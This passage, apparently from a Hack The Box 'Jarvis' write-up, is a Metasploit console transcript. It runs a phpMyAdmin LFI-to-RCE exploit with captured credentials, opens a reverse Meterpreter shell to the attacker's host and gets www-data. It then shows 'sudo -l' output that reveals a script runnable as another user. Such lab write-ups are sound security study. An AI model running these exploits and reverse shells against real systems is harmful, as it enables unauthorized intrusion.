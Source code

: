 This time, "exploit/multi/http/phpmyadmin_lfi_rce" was used.
{% highlight shell %}
msf5 > use exploit/multi/http/phpmyadmin_lfi_rce 
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > show options

Module options (exploit/multi/http/phpmyadmin_lfi_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phpmyadmin/     yes       Base phpMyAdmin directory path
   USERNAME   root             yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set password imissyou
password => imissyou
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set username DBadmin
username => DBadmin
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set rhosts 10.10.10.143
rhosts => 10.10.10.143
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Sending stage (38288 bytes) to 10.10.10.143
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.143:43688) at 2019-11-10 12:27:06 +0200
[-] 10.10.10.143:80 - Failed to drop database ozviz. Might drop when your session closes.

meterpreter > getuid
Server username: www-data (33)
meterpreter >
{% endhighlight %}

By running "sudo -l", we can find that user "pepper" can run "simpler.py" as root.
{% highlight shell %}
meterpreter > shell
Process 4892 created.
Channel 1 created.
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
{% endhighlight %}

